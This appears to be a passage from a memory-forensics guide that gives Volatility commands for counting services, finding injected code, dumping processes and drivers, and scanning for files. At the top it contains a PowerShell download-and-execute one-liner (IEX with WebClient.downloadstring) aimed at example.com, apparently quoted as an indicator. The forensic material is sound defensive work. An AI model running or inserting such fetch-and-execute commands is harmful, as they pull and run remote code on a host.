 ```IEX(New-Object System.Net.WebClient).downloadstring(‘http://example.com/foo.exe’)```

**Counting services**:

`vol.py -f image.raw --profile=<profile> svcscan -v |grep “Service Name” |wc -l`

This will count the amount of services on the memory image. 

**Finding code injection**: The following command will find suspicious processes in memory which can be used for further the research,

`vol.py -f image.raw --profile=<profile> malfind > malfind.txt`

We can then use procdump with volatility and then use the following command to look at the readable strings.

`strings -a -t d -e l process.<random_string>.<hex_string>.dmp >> <process_name>.uni`

This may reveal strings that we can Google which could reveal malicious code or titles. 

**Investigating a process further**

First lets dump a process. 

`vol.py -f image.raw --profile=<profile> procdump -p <PID> --dump-dir=./`

Have a quick review of the executable,

`strings -a -t d executable.<PID>.exe`

Then lets use pescan to give us an analysis of the executable. 

`pescan -anomalies executable.<PID>.exe`

Then let’s check the memory dump for the same process. 

`vol.py -f image.raw --profile=<profile> memdump -p <PID> --dump-dir=./`

Then use strings again,

`strings -a -t d -e l <PID>.dmp > strings<PID>.uni`

We can then grep for IOCs that we found elsewhere or we can look for shares.

`grep -i ‘\\c\$’ strings<PID>.uni`

**Check for files in memory**

We can use the following command to check for documents that may be opened in memory. 

`vol.py -f image.raw --profile=<profile> filescan > filescan.txt`

If we are interested in Word documents in memory then we can use the following. 

`grep -i docx filescan.txt`

**Extract a driver from a memory image**

First lets identify the base offset of the driver that we want to extract. 

`vol.py -f image.raw --profile=<profile> modules`

Then we can use the base value to dump the driver. 

```